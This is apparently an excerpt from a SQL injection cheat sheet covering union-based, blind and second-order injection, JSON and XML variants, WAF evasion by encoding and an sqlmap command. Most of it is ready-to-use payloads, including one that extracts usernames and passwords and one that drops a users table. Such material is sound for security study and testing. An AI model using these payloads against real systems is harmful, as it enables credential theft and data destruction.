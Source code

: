 ### Avoiding Detection

Use comment markers and encoding to bypass WAFs:
```sql
' UNION SELECT null, username, password FROM users;--/*example*/ 
```

## Blind SQL Injection Techniques in Depth

### Boolean-Based Blind SQL Injection

Examples:
```sql
' AND (SELECT CASE WHEN (1=1) THEN 'true' ELSE 'false' END) = 'true'; --
```

### Time-Based Blind SQL Injection

Examples:
```sql
' OR IF(1=1, SLEEP(5), 0); --
```

## Advanced SQL Injection Techniques

### Second-Order SQL Injection

Stored payloads that execute later:
```sql
admin'); DROP TABLE users; --
```

### SQL Injection in Different Contexts

- **JSON-Based**: `{"username":"admin' OR '1'='1", "password":"123"}`
- **XML-Based**: `<user><name>admin' OR '1'='1</name></user>`
- **Web Services**: Exploit SQL Injection in SOAP or REST API requests.

### Bypassing Web Application Firewalls (WAFs)

1. **Obfuscation**: Changing payloads to evade pattern matching.
2. **Encoding**: Using URL encoding, hexadecimal, or Unicode:
   ```sql
   '%55%4E%49%4F%4E%20SELECT'
   ```

## Tools for SQL Injection

### SQLMap

An open-source tool that automates SQL Injection attacks:
```bash
sqlmap -u "http://example.com/page?id=1" --dbs --batch
```
